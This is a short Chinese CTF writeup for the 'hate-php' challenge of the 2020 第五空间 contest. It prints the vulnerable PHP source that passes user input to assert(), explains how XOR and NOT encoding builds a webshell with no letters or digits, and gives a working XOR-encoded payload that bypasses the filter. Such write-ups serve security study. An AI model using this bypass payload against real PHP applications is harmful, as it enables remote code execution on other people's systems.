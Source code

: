 ```yaml
---
title: “第五空间”智能安全大赛
date: 2020-06-26
image: 
description: 第五空间CTF Writeup
categories: 
- ctf_writeup
tags:
- SSRF
- RCE bypass
---
```

### hate-php

考点：异或取反构造无字母数字webshell

开题送码：

```
<?php
error_reporting(0);
if(!isset($_GET['code'])){
    highlight_file(__FILE__);
}else{
    $code = $_GET['code'];
    if (preg_match('/(f|l|a|g|\.|p|h|\/|;|\"|\'|\`|\||\[|\]|\_|=)/i',$code)) { 
        die('You are too good for me'); 
    }
    $blacklist = get_defined_functions()['internal'];
    foreach ($blacklist as $blackitem) { 
        if (preg_match ('/' . $blackitem . '/im', $code)) { 
            die('You deserve better'); 
        } 
    }
    assert($code);
}
```

`preg_match` ban掉了下划线等字符，然后 `get_defined_functions()['internal']` 禁用了内置函数

但是没有过滤取反~和异或^，



PHP7前是不允许用($a)();这样的方法来执行动态函数的，但PHP7中增加了对此的支持。所以，我们可以通过 `('phpinfo')();` 来执行函数，第一个括号中可以是任意PHP表达式。



不但如此，这个payload还支持接受参数，比如 `('phpinfo')(1)` ，这道题过滤了分号，但是这道题不需要分号也可以执行

那么我们自然可以用这个来执行一些代码；

```
?code=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
```
